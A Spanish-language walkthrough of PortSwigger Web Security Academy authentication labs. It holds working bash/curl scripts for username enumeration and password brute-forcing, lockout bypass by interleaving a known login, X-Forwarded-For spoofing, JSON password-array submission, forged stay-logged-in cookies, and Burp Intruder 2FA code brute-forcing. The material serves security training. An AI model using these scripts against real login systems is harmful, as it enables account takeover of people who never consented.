# Authentication - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/authentication](https://portswigger.net/web-security/authentication)

## Índice

- [BRUTEFORCE](#brute-force)
  * [1. Lab: Username enumeration via different responses](#1-lab-username-enumeration-via-different-responses)
  * [2. Lab: Username enumeration via subtly different responses](#2-lab-username-enumeration-via-subtly-different-responses)
  * [3. Lab: Username enumeration via response timing](#3-lab-username-enumeration-via-response-timing)
  * [4. Lab: Broken brute-force protection, IP block](#4-lab-broken-brute-force-protection-ip-block)
  * [5. Lab: Username enumeration via account lock](#5-lab-username-enumeration-via-account-lock)
  * [6. Lab: Broken brute-force protection, multiple credentials per request](#6-lab-broken-brute-force-protection-multiple-credentials-per-request)
- [DOBLE FACTOR](#doble-factor)
  * [7.  Lab: 2FA simple bypass](#7--lab-2fa-simple-bypass)
  * [8. Lab: 2FA broken logic](#8-lab-2fa-broken-logic)
  * [9. Lab: 2FA bypass using a brute-force attack](#9-lab-2fa-bypass-using-a-brute-force-attack)
  * [10. Lab: Brute-forcing a stay-logged-in cookie](#10-lab-brute-forcing-a-stay-logged-in-cookie)
  * [11. Lab: Offline password cracking](#11-lab-offline-password-cracking)

## BRUTERFORCE

## 1. Lab: Username enumeration via different responses


Extraemos los datos necesarios para hacer la consulta:	

```bash
https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login
csrf=JqMWKgtoS0cIGjdNp8PL3uY44N4xeePx&username=a&password=a
```

Escribimos un script en bash para solucionar el problema:

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
	
	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```

Ejecutamos el programa y vemos que valida un usuario.


Verificamos en la pagina, y vemos que si funciona.


Ahora extendemos el script para probar con las contraseñas.

```bash
#!/bin/bash

URL='https://aca61f111e1ff681806d1a2f00ed00e9.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	if echo $RESULT | grep -o "Invalid username" > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Incorrect password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
done
```

Ejecutamos el nuevo script y obtenemos el resultado siguiente


Lo probamos en el sitio web para verificar si es cierto.


Y para culminar con el laboratorio accedemos a la seccion **My account**.


## 2. Lab: Username enumeration via subtly different responses

Para este ejercicio debemos de enumerar el usuario que tiene una variacion pequeña entre los errores.



```bash
https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login
csrf=ok1ahDjlVNE1Q2ZHTa0wP5fZd6C8BtIN&username=a&password=a
```

Como nos dicen que hay una pequeña variacion en el mensaje de error, entonces vamos a pobrar con todo el payload completo de error el cual es **<p class=is-warning>Invalid username or password.</p>**

```bash
#!/bin/bash

URL='https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do

	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
    
	if echo $RESULT | grep -F '<p class=is-warning>Invalid username or password.</p>' > $NULL
	#Fijarse que puse -F porque estaba considerando el . como una expresion regular
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done
```

Ejecutando el codigo obtenemos el usuario valido.



Ahora, agregamos el codigo suficiente para obtener la contraseña.

```bash
#!/bin/bash

URL='https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
    
	if echo $RESULT | grep -F '<p class=is-warning>Invalid username or password.</p>' > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Invalid username or password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
done
```

Corremos el script y obtenemos las credenciales:



Nos logeamos e ingresamos a la seccion **My acount**.



## 3. Lab: Username enumeration via response timing

```bash
https://ac591f871e61f7ab805b171800bf006e.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Escribiendo el script, tendremos el siguiente.

```bash
#!/bin/bash

URL='https://ac591f871e61f7ab805b171800bf006e.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
PASS=`python -c "print 'A'*2000"`
#USER="wieners"

N=1

for USER in `cat user.txt`;do

	DATA='csrf='$CSRF'&username='$USER'&password='$PASS
	RESULT=`curl $URL -d $DATA -b $COOKIE -H "X-Forwarded-For: 192.168.0.$N" -w %{time_total} -o $NULL -s`
    TIME=`echo $RESULT | cut -d "." -f 1`
    
    if [[ $TIME -gt 5 ]]
    then
        echo "Valid user: $USER"
        break
    else
        echo "Invalid user: $USER"
    fi
    
	N="$[ $N + 1 ]"
done

for PASS in `cat password.txt`;do

        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s -H "X-Forwarded-For: 192.168.0.$N"`

        if echo $RESULT | grep -o "password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
        N="$[ $N + 1 ]"
done
```

Detectamos las credenciales con el usuario:



Validamos que las credenciales son correctas:



## 4. Lab: Broken brute-force protection, IP block

```
Your credentials: wiener:peter
Victim's username: carlos
```

```
https://acdc1fe11eb6d006807363a8001d00fb.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Escribiremos un script para desarrollar este ejercicio el cual será el siguiente:

```bash
#!/bin/bash

URL='https://acdc1fe11eb6d006807363a8001d00fb.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
USER="carlos"
USER0="wiener"
PASS0="peter"
N=1
for PASS in `cat password.txt`;do

    if [ $[ $N % 2 ] == 0 ]
    then
        #Nos logeamos con la cuenta existente
        #Para reiniciar el contador. :D
        DATA2='csrf='$CSRF'&username='$USER0'&password='$PASS0
        curl $URL -d $DATA2 -b $COOKIE -s > $NULL
    fi
    DATA='csrf='$CSRF'&username='$USER'&password='$PASS
    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

    if echo $RESULT | grep -o "Incorrect password" > $NULL
    then
        echo "Incorrect creds: $USER:$PASS"
    else
        echo "Valid creds: $USER:$PASS"
        break
    fi
    N="$[ $N + 1 ]"
done
```

Obtenemos el resultado del script.



Al probarlo en el sitio web verificamos que completamos el nivel.



## 5. Lab: Username enumeration via account lock

```
https://ac681ff01fdae0fd800c26bb00a700dc.web-security-academy.net/login
csrf=zus2HXTmtFPFdOSnT7JHTTuVSFIY5KAQ&username=sd&password=sd
```

Como son intentos para bloquear un usuario, entonces lo que haremos será consultar 4 veces cada usuario de la lista, cuando bloquee a un usuario, será porque ese usuario es válido, acontinuacion el script.

```bash
#!/bin/bash

URL='https://ac681ff01fdae0fd800c26bb00a700dc.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`
do
    echo "Probando para USER=$USER"
    for i in `seq 1 4`
    do
	    DATA='csrf='$CSRF'&username='$USER'&password=a'
	    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	    if echo $RESULT | grep -oP "Invalid username or password." > $NULL
	    then
		    echo -ne ""
	    else
		    echo "Valid user: $USER"
		    break
	    fi
    done
done
```

Corriendo el escript obtenemos lo siguiente:



Verificando en la web, notamos que si es valido.



Ahora agregamos ese error a la lista de respuesta que demuestran que la contraseña es incorrecta y corremos el nuevo script es cual sería

```bash
#!/bin/bash

URL='https://ac681ff01fdae0fd800c26bb00a700dc.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
VALID=0
for USER in `cat user.txt`
do
    echo "Probando para USER=$USER"
    for i in `seq 1 4`
    do
	    DATA='csrf='$CSRF'&username='$USER'&password=a'
	    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

	    if echo $RESULT | grep -oP "Invalid username or password." > $NULL
	    then
		    echo -ne ""
	    else
		    echo "Valid user: $USER"
		    VALID=1
		    break
	    fi
    done
    if [ $VALID == 1 ]
    then
        break
    fi
done

for PASS in `cat password.txt`;do

    DATA='csrf='$CSRF'&username='$USER'&password='$PASS
    RESULT=`curl $URL -d $DATA -b $COOKIE -s`

    if echo $RESULT | grep -o "Invalid username or password." > $NULL
    then
        echo "Incorrect creds: $USER:$PASS"
    else
        if echo $RESULT | grep -o "Please try" > $NULL
        then
            echo "Incorrect creds: $USER:$PASS"
        else
            echo "Valid creds: $USER:$PASS"
            break
        fi
    fi
done
```

Y al correrlo obtener el siguiente resultado:



Y luego de esperar un minuto por el bloqueo, probamos las credenciales y completamos el nivel.


## 6. Lab: Broken brute-force protection, multiple credentials per request

Cuando consultamos al login podemos ver, que este ya es un poco diferente por la manera en como envia los parametros post (formano JSON)



Entonces, lo que hacemos en intentar enviar todas las claves del diccionario mediante un array en password con el siguiente codigo:

```bash
#!/bin/bash

URL='https://ac7d1fc61e0921f0804371d000d70007.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
USER="carlos"

PASSS=`cat password.txt | tr '\n' ':' | sed s/':'/'","'/g`
DATA='{"csrf":"'$CSRF'","username":"'$USER'","password":["'$PASSS'"]}'

curl $URL -d $DATA -b $COOKIE
```

Lo curioso es que no recibimos ningun output, lo cual parece ser muy misterioso. Intentaremos dividir en 2 partes el string para de esa manera verificar si esto ocurre cuando enviamos muchos argumentos o algo esta ocurriendo por detrás que nos puede dar una pista de que hacer.

```bash
#!/bin/bash

URL='https://acd41fb21eba1524804c04b7006700ef.web-security-academy.net/login'
NULL='/dev/null'

USER="carlos"

cp password.txt pass0.txt #Comentar la segunda vez que corres el script

for i in `seq 1 7`
do
    
    REQUEST1=`curl $URL -D- -s`
    CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
    COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

    LINESS=`cat pass0.txt | wc -l`

    sed -n 1,$[$LINESS/2]p pass0.txt > pass1.txt
    sed -n $[$LINESS/2+1],$[$LINESS]p pass0.txt > pass2.txt

    PASS1=`cat pass1.txt | tr '\n' ':' | sed s/':'/'","'/g`
    PASS2=`cat pass2.txt | tr '\n' ':' | sed s/':'/'","'/g`

    DATA='{"csrf":"'$CSRF'","username":"'$USER'","password":["'${PASS1::-3}'"]}'
    RESULT1=`curl $URL -d $DATA -b $COOKIE -s`
    #echo "Resultado uno"
    #echo $RESULT1
    
    REQUEST1=`curl $URL -D- -s`
    CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
    COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`
    
    DATA='{"csrf":"'$CSRF'","username":"'$USER'","password":["'${PASS2::-3}'"]}'
    RESULT2=`curl $URL -d $DATA -b $COOKIE -s`
    #echo "Resultado dos"
    #echo $RESULT2
    
    if echo $RESULT1 | grep -o "Invalid username or password" > $NULL
    then
            #echo "Aqui en pass1.txt no es"
            echo "La clave debe estar en: ${PASS2::-3}"
            cat pass2.txt > pass0.txt
    fi

    if echo $RESULT2 | grep -o "Invalid username or password" > $NULL
    then
            #echo "Aqui en pass2.txt no es"
            echo "La clave debe estar en: ${PASS1::-3}"
            cat pass1.txt > pass0.txt
    fi
    sleep 1
done
```

Ejecutando el codigo vemos lo siguiente.

```bash
$ bash enum-user6.sh 

La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow
La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess
La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper
Estoy dentro de tu 4 #En esta parte ya nos bloqueo la pagina por un minuto pero ya tenemos una lista reducida.
Estoy dentro de tu 5
Estoy dentro de tu 6
Estoy dentro de tu 7
```

Y actualizamos pass0.txt con el comando siguiente:

``` 
echo 'thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper' | sed s/'","'/'\n'/g > pass0.txt
```

Y corremos el script por segunda vez comantando la linea que hace cp de password.txt a pass0.txt.

```bash
$ bash enum-user6.sh 
La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster
La clave debe estar en: daniel","starwars","klaster
La clave debe estar en: starwars","klaster
```

En este caso solo nos queda probar una de las dos claves y logearnos de manera exitosa.



## DOBLE FACTOR

## 7.  Lab: 2FA simple bypass

Empezaremos ingresando al login, con nuestras credenciales.



Nos pide un codigo, el cual lo encontraremos en la seccion **Email Client**.



Entraremos a **My Account** y guardaremos el enlace del perfil que es luego de realizar la autenticacion.

```
https://ace51fbe1e7cf6a580f19dfb00f7005c.web-security-academy.net/my-account
```

 Ahora cerramos session e intentamos hacer lo mismo con el usuario victima.



Como vemos nos pide un codigo de 4 digitos, el cual no poseemos, pero como tenemos una ruta interna de la pagina que se accede cuando estás logeado. Pues intentaremos ponerla en la URL y ver lo que pasa.



Como podemos ver, logramos saltarnos la autenticacion, porque simplemente no verificaba luego de ingresar si realizaste un envio valido del codigo de 4 digitos.

## 8. Lab: 2FA broken logic

Ingresamos a la url del reto, lo que haremos será logearnos con las credenciales que nos dá la plataforma, e interceptaremos la solicitud con BurpSuite.



Como podemos ver, todo está ocurriendo de manera normal, así que le damos en forward y vemos el siguiente paquete.



Como podemos ver en la siguiente imagen, contamos con el parametro **verify** lo que haremos será cambiar el nombre por **carlos** que es a donde queremos acceder y le damos forward.



Ahora, en esta parte enviamos cualquier codigo para que nos vote un error. y luego revisamos en el HTTP history de brupsuite, para obtener la solicutd y enviarla al intruder.



En el intruder, hacemos un Clear $, luego seleccionamos el valor de mfa-code y le damos en el boton Add $, 
**NOTA: en la siguiente imagen, debe cambiar el valor de verify por carlos, por lo cual quedaría. verify=carlos**



Luego vamos a payloads y agregamos la lista de todos los posibles codigos esto lo podemos realizar con el comando:

```bash
crunch 4 4 1234567890
```



Y luego si contamos con BurpSuite Professional podemos ir a la seccion de options y especificar el numero de hilos en 20.



Y luego le damos en Attack para que empiece el ataque de fuerza bruta. Organizamos por Status, y cuando empiecen a salir codigos de estado 400 le damos en Attack > Pause. Y buscamos el codigo **302**



Luego le damos clic derecho y clic en **Show response in browser** ,



Luego de ello, le damos clic en **Copy** y lo pegamos en nuestro navegador.



Como podemos ver, hay un usuario ya legeado. Entonces entraremos a la seccion **My account** para culminar con el nivel.



## 9. Lab: 2FA bypass using a brute-force attack

Para este laboratorio necesitaremos usar una opcion de Burpsuite denominado **macros**, que vendrían hacer como automatizacion de consultas previas, para de esta manera la consulta que ejecutemos sea valida, puesto que esta requiere de realizar ciertas acciones antes.

Empezamos este laboratorio ingresando por el login y luego ejecutamos un codigo aleatorio de verificacion.



Luego vamos a **Proyect options**, y luego a la pestaña **Sessions**, y luego a la seccion **Session Handling Rules** y **Add**.





En descripcion ponemos un nombre, en rule actions hacemos clic en **Add** y **Run a macro**. Nos saldrá una nueva ventana.



Luego le damos clic en **Add**, 



Seleccionamos los 3 packetes antes del POST de /login2 y le damos **ok** a todo hasta llegar hasta la ventana siguiente:



Luego vamos a la seccion **Scope** y seleccionamos la siguiente configuracion.



Y luego debe quedar la regla de la siguiente manera:



Luego vamos al Http history y elegimos la 4ta solicitud y la enviamos al intruder.



Luego mantenemos la siguiente configuraciones:







Luego le damos **Start Attack** Y esperamos que salgo un codigo 302 como en el ejercicio anterior y completamos el reto.



**Nota: A veces la maquina muere antes de encontrar la solicitud es cosa de seguir intentando.**



## 10. Lab: Brute-forcing a stay-logged-in cookie

Lo que haremos será logearnos activando la opcion de mentenerse conectados. Y luego interceptamos el paquete de consulta get luego del logeo.



Entonces como podemos ver, tenemos una cookie extra, la cual es: **stay-logged-in**, parece que este valor sea base64, entonces lo que haremos será decodificarla para ver si nuestra supocision es verdadera.

```bash
└──╼ $echo d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Como podemos ver, si era base64, y ahora nos topamos con lo que parece ser un hash en md5, así que intentaremos hashear la clave de wiener que es **peter** en md5. y analizarlo con el resultado, para ver si es correcto.

```bash
└──╼ $echo -ne 'peter' | md5sum
51dc30ddc473d43a6011e9ebba6ca770  -
```

Entonces, lo que haremos será preparar las posibles cookies dependiendo de la estructura antes explicada la cual sería:

```bash
COOKIE-LOGGED = BASE64(USER:MD5(PASS))
```

Con el siguiente comando:

```bash
└──╼ $ for i in `cat password.txt`;do echo -ne carlos:$(echo -ne $i | md5sum | cut -d " " -f 1) | base64 ;done > cookie-hash.txt
```

Ahora en nuestro navegador hacemos una consulta a **My Account**. Y luego lo enviamos al intruder. Y realizamos las siguientes configuraciones.





Y luego hacemos clic en **Start Attack**. Luego ordenamos por **Status** y obtenemos que hay una solicitud con codigo 200 que envio un payload. Le damos clic derecho **Show in response in browser**, y copiamos el link y lo pegamos en el navegador.



Y Listo :D.

## 11. Lab: Offline password cracking

